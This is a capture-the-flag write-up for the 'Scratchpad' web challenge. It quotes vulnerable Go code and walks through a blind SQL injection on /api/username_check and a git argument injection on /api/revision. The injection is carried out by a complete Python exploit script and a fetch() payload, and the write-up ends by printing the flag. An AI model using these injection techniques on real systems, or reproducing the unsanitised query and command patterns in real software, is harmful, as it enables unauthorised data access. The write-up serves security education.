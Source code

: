 # Scratchpad

## Description

My new note-taking app is great for jotting down quick thoughts (or flags)!

## Files

* [scratchpad.zip](https://github.com/jselliott/USCyberOpen2025/blob/main/challenges/web/scratchpad/dist/scratchpad.zip)

## Writeup

This challenge gives us a zip file, so the best thing we can do to start is to extract it!

When we do, we see the source code for a website with a frontend in Vite and a backend using Go.

Looking at `entrypoint.sh`,. we can also see where our flag will be:
```bash
#!/bin/sh
set -e
  
DB_PATH="/app/ctf.db"
USERS_DIR="/app/data"
FLAG=$(cat /flag.txt)
FOLDER=$(uuidgen)
FOLDER_PATH="$USERS_DIR/$FOLDER"
  
echo $FOLDER
  
mkdir -p "$FOLDER_PATH"
  
cd "$FOLDER_PATH"
git init
echo "$FLAG" > scratchpad.txt
git add scratchpad.txt
git commit -m "Add flag"
echo "" > scratchpad.txt
git add scratchpad.txt
git commit -m "Blank file"
cd -
  
sqlite3 "$DB_PATH" <<EOF
CREATE TABLE IF NOT EXISTS users (username TEXT PRIMARY KEY, password TEXT, folder TEXT, filename TEXT);
INSERT INTO users (username, password, folder, filename) VALUES ('admin', 'temppassword', '$FOLDER','scratchpad.txt');
EOF
  
rm /flag.txt
  
/usr/bin/supervisord -c /etc/supervisord.conf
```

Interestingly, it seems the file is hidden in a random folder using `git` version control. The file also does not currently display the flag since it was rewritten as a blank file, but the version history of the file would still display the flag.

Seeing a SQL database containing our folder location, an interesting part of the Go source code starts to stand out.
```go
func usernameCheckHandler(w http.ResponseWriter, r *http.Request) {
    username := strings.ToLower(r.URL.Query().Get("username"))
    row := db.QueryRow(fmt.Sprintf("SELECT 1 FROM users WHERE username = '%s'", username))
    var dummy int
    err := row.Scan(&dummy)
    json.NewEncoder(w).Encode(map[string]bool{"good": err == sql.ErrNoRows})
}
```

This function is linked to the endpoint `/api/username_check` and takes a query string parameter, `username`. However, it directly passes the input into a SQL query with no sanitation, which is very bad. This is a clear example of an SQL injection vulnerability. And ultimately, since the function tells us whether or not there is a row in the output (saying "good" is "true" if there are no rows and "false" if there is a row), we can use standard blind SQL injection.

Now, we just need to figure out what to do with that. The endpoint `/api/revision/` maps to an interesting function that once again fails to properly sanitize user input.
```go
func handleRevision(w http.ResponseWriter, r *http.Request) {
    var req RevisionRequest
  
    claims, err := getClaims(r)
    if err != nil {
        http.Error(w, "Unauthorized", 401)
        return
    }
    folder := claims["folder"].(string)
  
    if err := json.NewDecoder(r.Body).Decode(&req); err != nil {
        http.Error(w, "bad request", 400)
        return
    }
  
    args := strings.Split(req.Action, " ")
    args = append(args, fmt.Sprintf("%s:scratchpad.txt", req.Hash))
    cmd := exec.Command("git", args...)
    cmd.Dir = filepath.Join("data", folder)
  
    out, err := cmd.CombinedOutput()
    if err != nil {
        http.Error(w, string(out), 500)
        return
    }
    w.Write(out)
}
```

Unfortunately, we can't execute arbitrary Bash code here, but we can control a lot with the `git` command. This is the same command we can use to view the version history of the file the flag is in. The only challenges, though, are that the revision hash is included in the format string `%s:scratchpad.txt` at the end of the request, which we don't really want, and this is all done without our user's folder, not the admin folder we want to read the flag from. However, this full command should do the trick:

```bash
git -C ../thefolder log -- scratchpad.txt -- hash:scratchpad.txt
```

The `-C` option enables us to run `git` from another directory other than the current working directory, which we can use to get into the admin folder. The `--` argument tells `git` to process the files, `scratchpad.txt` and `hash:scratchpad.txt` as literal files rather than specific hashes for revisions. The latter of these is simply ignored since it is not a real file.

So our payload `action` is `-C ../thefolder log -- scratchpad.txt --` and our `hash` can be anything. We can use the same Python script we write to perform the SQL injection to give us the payload we'll need.

```python
# Necessary to perform the HTTP requests required to exploit
from requests import get, post
# Necessary to URL encode the SQL injection payload
from urllib.parse import quote_plus as urlencode
# Helps craft the payload to exploit git
from json import dumps
# Stores the necessary character set
import string

# Our host to exploit here
host = "https://jfoubfoe.web.ctf.uscybergames.com/"

# Generates a SQL injection payload for the host
def gen_payload(payload):
    return host + "api/username_check?username=" + urlencode("admin' and " + payload + " and '1'='1")

# Generates a specific payload to compare a character of the folder with a guess character
def gen_substr(idx, char):
    return gen_payload("substr(folder, " + str(idx) + ", 1) = '" + char + "'")

# Performs a GET request with the substring payload
def run_substr(idx, char):
    return get(gen_substr(idx, char)).json()

# Our charset (since it is a UUID)
charset = string.hexdigits + "-"

# Checks an individual index of the folder 
def check_idx(idx):
    # Loop through our charset for each possible guess
    for char in charset:
        # Perform the GET request
        res = run_substr(idx, char)
        # If "good" is "false", it means there is a row and the character matches
        if not res["good"]:
            return char
    # Return an empty string if all characters exhausted (end of folder name)
    return ""

# Stores the folder
folder = ""
# Initialize our guess character
char = "a"
# Start at index 1 (first character in SQL)
i = 1
# Loop while we have a next character
while len(char) > 0:
    # Get the character
    char = check_idx(i)
    # Go to next index after this
    i += 1
    # Add character to known folder name
    folder += char
    # Print progress
    print(folder)

# Action necessary to view the log
action = "-C ../" + folder + " log -- scratchpad.txt --"
# Just a random hash value to complete the request payload
hash_val = "test"
# Create the payload as JSON
body_payload = dumps({"action":action,"hash":hash_val})
# String with fetch payload
full_fetch = "fetch(\"" + host + "api/revision\", {method:\"POST\",body:'"+body_payload+"'});"
# Print the payload so we can run it after logging in
print(full_fetch)

```


Now we can run this!

![SQLi](../../images/Pasted%20image%2020250616205151.png)

After logging in, it ultimately becomes easier to just copy the request from reviewing a revision of our own file so we can include the necessary credentials, but we still use the same payload.

![Fetch](../../images/Pasted%20image%2020250616205309.png)

![Revision data](../../images/Pasted%20image%2020250616205330.png)

Now that we have the revision, we can use a similar `git show` payload to show the flag!

![Fetch 2](../../images/Pasted%20image%2020250616205415.png)

![Flag](../../images/Pasted%20image%2020250616205437.png)

And our flag is `SVUSCG{331be1ddccf6667a5271d4727eb36098}`!
